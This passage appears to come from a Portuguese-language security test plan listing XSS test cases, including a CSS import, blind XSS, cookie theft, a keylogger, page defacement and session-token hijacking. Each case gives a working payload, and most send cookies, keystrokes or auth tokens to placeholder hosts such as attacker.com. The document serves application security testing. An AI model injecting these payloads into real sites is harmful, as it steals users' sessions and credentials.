 ### Teste 11: XSS via CSS
**Descrição:** Execução através de propriedades CSS
**Payload:** `<style>@import'http://evil.com/xss.css';</style>`
**Local:** Campos que permitem CSS
**Resultado Esperado:** Carregamento de CSS malicioso

### Teste 12: XSS Blind
**Descrição:** XSS que faz requisições para servidor externo
**Payload:** `<img src=x onerror=fetch('http://attacker.com/steal?cookie='+document.cookie)>`
**Local:** Campos que não mostram output
**Resultado Esperado:** Envio de cookies para servidor atacante

---

## 💀 Casos de Teste Extremos

### Teste 13: XSS com Roubo de Cookies
**Descrição:** Script que captura e envia cookies
**Payload:** `<script>document.location='http://attacker.com/cookie.php?c='+document.cookie</script>`
**Local:** Qualquer campo XSS
**Resultado Esperado:** Redirecionamento com cookies na URL

### Teste 14: XSS com Keylogger
**Descrição:** Script que captura teclas digitadas
**Payload:** 
```javascript
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/keylog.php?key=' + String.fromCharCode(e.which));
}
</script>
```
**Local:** Campos persistentes
**Resultado Esperado:** Captura de todas as teclas

### Teste 15: XSS com Defacement
**Descrição:** Script que modifica a página inteira
**Payload:** 
```javascript
<script>
document.body.innerHTML = '<h1 style="color:red">HACKED!</h1>';
</script>
```
**Local:** Comentários ou perfil
**Resultado Esperado:** Alteração visual da página

### Teste 16: XSS com Session Hijacking
**Descrição:** Roubo de token de sessão
**Payload:** 
```javascript
<script>
var token = localStorage.getItem('authToken');
fetch('http://attacker.com/session.php?token=' + token);
</script>
```
**Local:** Dashboard ou área logada
**Resultado Esperado:** Envio do token de sessão

---